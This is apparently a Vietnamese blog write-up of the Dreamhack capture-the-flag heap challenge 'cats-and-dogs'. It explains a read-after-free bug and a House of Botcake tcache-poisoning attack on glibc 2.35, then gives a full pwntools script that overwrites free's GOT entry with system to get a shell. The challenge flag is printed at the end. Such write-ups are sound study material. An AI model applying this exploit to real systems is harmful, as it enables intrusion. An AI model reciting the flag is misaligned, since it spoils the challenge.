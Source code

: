 ```yaml
---
title: "(Dreamhack) cats-and-dogs"
date: 2025-09-18 00:00:00 +0700
categories: [Heap exploit]
tags: [House of Botcake, House of, Heap exploitation, Dreamhack]
---
```

[Link challenge](https://dreamhack.io/wargame/challenges/1964)
# Kiểm tra file binary  
Kiểm tả protections của file:

![Kiểm tra protections](/assets/imagespost1/screenshot-2025-09-18-231036.png)


Tóm tắt source code, đây là 1 note challenge có hàm malloc, free, edit, với read data, ta sẽ kiểm tra từng hàm:

__Hàm malloc__

![malloc animal](/assets/imagespost1/malloc.png)

__Hàm free__

![free animal](/assets/imagespost1/free.png)

__Hàm print data__
 
![print animal](/assets/imagespost1/read.png)

__Hàm modify data__

![modify animal](/assets/imagespost1/modify.png)

Với animal dog thì cũng gần như giống cat chỉ khác nhau mỗi lần malloc dog thì malloc(0x100) và tối đa 2 chunk thay vì 16 chunk như cat.

# Exploit
Challenge sử dụng glibc 2.35, ban đầu mình thử double free tcache nhưng không được vì hàm modify kiểm tra con trỏ có NULL hay không trước khi modify, nhưng ở hàm print data nó lại không kiểm tra, tức là ta có bug read after free.

Challenge này mình sẽ sử dụng kĩ thuật [House of Botcake](https://github.com/shellphish/how2heap/blob/master/glibc_2.35/house_of_botcake.c) để overlap 1 phần của 1 chunk thành tcachebin, sau đó ghi từ vị trị chunk bị overlap, đè fd của tcachebin đó thành địa chỉ mong muốn.

Đầu tiên, ta sẽ malloc 10 chunk cat, 7 chunk dùng để fill tcachebin, 1 chunk dùng để consolidate, 1 chunk là victim, 1 chunk để tránh chunk victim consolidate với top chunk.

```python
for i in range(10):
    malloc("cat", i)
#fill tcache 
for i in range(7):
    free("cat", i)
free("cat", 8) #free victim chunk into unsorted bin
show("cat", 0)
p.recvuntil(b'says: ')
heap_base = u64(b'\x00\x00'+p.recvn(3).ljust(6, b'\x00')) >> 4
xor_key = heap_base >> 12
print("Heap base: ", hex(heap_base))
print("Xor key: ", hex(xor_key))
show("cat",8)
p.recvuntil(b'says: ')
libc.address = u64(p.recvn(6).ljust(8, b'\x00')) - 0x21ace0
print("Libc base: ", hex(libc.address))
```

 Tiếp theo ta sẽ free chunk trước unsorted bin, khi đó chunk ta free sẽ consolidate với unsorted bin, free 1 chunk trong unsorted bin -> overlap

 ```python
free("cat", 7)      #free chunk 7 to consolidate
malloc("cat", 10)   #malloc 1 chunk from tcachebin
free("cat", 8)      #able to free 1 chunk into tcachebin, index 8 is now in unsorted bin -> overlapped
```

Khi tcachebin đã overlap, ta sẽ cần 1 bug overflow để ghi từ unsorted bin làm overflow fd của tcachebin, ta sẽ chọn malloc dog vì nó sẽ malloc size lớn hơn.

Khi đã overflow fd của tcachebin, ta đã có được aaw, khi đó có thể ghi vào got của free

```python
malloc("dog", 0)    
edit("dog", 0,b'a'*0x98 + p64(0xa1) + p64(((0x404018)-8)^xor_key))
malloc("cat", 11)
malloc("cat", 12)
edit("cat", 12, p64(libc.address+ogg[3])*2)
free("cat", 13)
```

# Full script

```python
from pwn import *
from subprocess import check_output
import sys
import os
_path = "./main_patched"
context.binary = exe = ELF(_path, checksec=False)
libc = ELF("./libc.so.6", checksec=False)
ld = ELF("./ld-2.35.so", checksec=False)
addr = 'host8.dreamhack.games'
port = 15031
cmd = f'''
    set solib-search-path {os.getcwd()}
#    brva 0x3678
    continue
'''
context.terminal = ['wt.exe', 'wsl', '-e', 'bash', '-c']
def sl(_data):
    p.sendline(_data)
def sla(rgx, _data):
    p.sendlineafter(rgx, _data)
def se(_data):
    p.send(_data)
def sa(rgx, _data):
    p.sendafter(rgx, _data)
def get_pid(name):
    return int(check_output(["pgrep", "-f", "-n", name]))
if args.LOCAL:
        if args.GDB:
            p = gdb.debug(_path, cmd)
        else:
            p = exe.process()
if args.DOCKER:
        p = remote(addr, port)
        sleep(2)
        if args.GDB:
            pid = get_pid("")
            gdb.attach(pid, exe=exe.path,
                    gdbscript=cmd+f"\n set sysroot /proc/{pid}/root\nfile /proc/{pid}/exe")
            pause()
elif args.REMOTE:
        host_port = sys.argv[1:]
        p = remote(addr, port)

def malloc(animal, idx):
    if(animal == "cat"):
        sla(b'choice: ', b'1')
        sla(b'cat: ', str(idx))
    elif(animal == "dog"):
        sla(b'choice: ', b'5')
        sla(b'dog: ', str(idx))
def free(animal, idx):
    if(animal == "cat"):
        sla(b'choice: ', b'4')
        sla(b'cat: ', str(idx))
    elif(animal == "dog"):
        sla(b'choice: ', b'8')
        sla(b'dog: ', str(idx))
def show(animal, idx):
    if(animal == "cat"):
        sla(b'choice: ', b'2')
        sla(b'cat: ', str(idx))
    elif(animal == "dog"):
        sla(b'choice: ', b'6')
        sla(b'dog: ', str(idx))
def edit(animal, idx, data):
    if(animal == "cat"):
        sla(b'choice: ', b'3')
        sla(b'cat: ', str(idx))
        sla(b'word: ', data)
    elif(animal == "dog"):
        sla(b'choice: ', b'7')
        sla(b'dog: ', str(idx))
        sa(b'word: ', data)
for i in range(10):
    malloc("cat", i)
#fill tcache 
for i in range(7):
    free("cat", i)
free("cat", 8)
show("cat", 0)
p.recvuntil(b'says: ')
heap_base = u64(b'\x00\x00'+p.recvn(3).ljust(6, b'\x00')) >> 4
xor_key = heap_base >> 12
print("Heap base: ", hex(heap_base))
print("Xor key: ", hex(xor_key))
show("cat",8)
p.recvuntil(b'says: ')
libc.address = u64(p.recvn(6).ljust(8, b'\x00')) - 0x21ace0
print("Libc base: ", hex(libc.address))

free("cat", 7)
malloc("cat", 10)
free("cat", 8)

malloc("dog", 0)
edit("dog", 0,b'/bin/sh\x00'*4 + b'a'*(0x98-0x20) + p64(0xa1) + p64((0x404010)^xor_key))
malloc("cat", 11)
malloc("cat", 12)
edit("cat", 12, p64(0)+p64(libc.sym.system))
edit("cat", 11, b'/bin/sh\x00')
free("cat", 11)
p.sendline(b'cat flag')
p.interactive()
# DH{They_both_like_cake:Knl1DBtdFjZAQjlJNVqc+A==}
```


